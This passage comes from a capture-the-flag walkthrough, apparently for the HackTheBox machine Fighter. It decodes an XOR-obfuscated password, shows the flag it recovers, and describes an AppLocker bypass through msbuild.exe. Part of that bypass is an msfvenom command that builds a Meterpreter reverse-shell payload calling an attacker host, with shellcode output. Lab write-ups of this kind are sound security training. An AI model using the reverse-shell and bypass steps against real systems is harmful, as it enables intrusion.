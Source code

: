 I'll go to the global I've named `obfuscated_password`:

![](/img/image-20220424150922878.png)

Right click \> "Copy Special" \> "Python Byte String" will export the
buffer nicely.

In Python, I can extract the password "OdioLaFeta":



    >>> obpass = b'\x46\x6d\x60\x66\x45\x68\x4f\x6c\x7d\x68'
    >>> ''.join([chr(x^9) for x in obpass])
    'OdioLaFeta'



Giving that to `root.exe` returns the same flag as above:



    PS C:\users\administrator\desktop> .\root.exe OdioLaFeta
    d801c1e9bd9a02f8fb30d8bd3be314c1



## Alternative Paths

### AppLocker Bypass

#### msbuild

When I solved this box in 2018, I didn't go to decoder, but rather
bypassed Applocker to get a Meterpreter shell. A popular AppLocker
bypass at the time of Fighter was using `msbuild.exe`, because it's a
legit trusted Windows executable that will take an XML file and run code
from it.

I'll grab a [template
file](https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml),
and run `msfvenom` to generate the shellcode:



    oxdf@hacky$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=443 -f csharp -v shellcode
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder specified, outputting raw payload
    Payload size: 354 bytes
    Final size of csharp file: 1831 bytes
    byte[] shellcode = new byte[354] {
    0xfc,0xe8,0x8f,0x00,0x00,0x00,0x60,0x31,0xd2,0x89,0xe5,0x64,0x8b,0x52,0x30,
    0x8b,0x52,0x0c,0x8b,0x52,0x14,0x8b,0x72,0x28,0x0f,0xb7,0x4a,0x26,0x31,0xff,
    ...[snip]...
    0xf0,0xb5,0xa2,0x56,0x6a,0x00,0x53,0xff,0xd5 };
